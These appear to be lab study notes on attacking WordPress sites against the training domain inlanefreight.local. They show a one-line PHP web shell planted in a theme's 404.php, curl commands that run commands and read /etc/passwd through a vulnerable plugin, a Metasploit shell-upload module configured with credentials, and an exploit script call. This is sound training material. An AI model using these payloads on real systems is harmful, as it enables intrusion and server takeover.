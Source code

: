 ### Code Execution
Requires administrative access

#### Click on `Select` after selecting the theme and edit an uncommon page such as `404.php` to add a web shell
```Shell
system($_GET[0]);
```
The code above (in PHP, not Shell) should let us execute commands via the `GET` parameter `0`. We add this single line to the file just below the comments to avoid too much modification of the contents.
![[Pasted image 20230218122835.png]]
Click on `Update File `at the bottom to save. WordPress themes are located at `/wp-content/themes/<theme name>`.

#### Interacting with the webshell using cURL
```Shell
curl http://blog.inlanefreight.local/wp-content/themes/twentynineteen/404.php?0=id
```

#### Using `wp_admin_shell_upload` in Metasploit to upload a shell and execute it automatically
```Shell
use exploit/unix/webapp/wp_admin_shell_upload

set rhosts blog.inlanefreight.local
set username john
set password firebird1
set lhost 10.10.14.15
set rhost 10.129.42.195 
set VHOST blog.inlanefreight.local
```
The Metasploit module uploads the `wCoUuUPfIO.php` file to the `/wp-content/plugins` directory

### Leveraging Known Vulnerabilities

*Note: We can use the [waybackurls] tool to look for older versions of a target site using the Wayback Machine. Sometimes we may find a previous version of a WordPress site using a plugin that has a known vulnerability. If the plugin is no longer in use but the developers did not remove it properly, we may still be able to access the directory it is stored in and exploit a flaw.*

#### Vulnerable Plugins - mail-masta
```Shell
curl -s http://blog.inlanefreight.local/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd
```
`include($_GET['pl']);` in source code allows us to include a file without any type of input validation or sanitization

#### Vulnerable Plugins - wpDiscuz
[wp_discuz exploit](https://www.exploit-db.com/exploits/49967)
```Shell
python3 wp_discuz.py -u http://blog.inlanefreight.local -p /?p=1
```
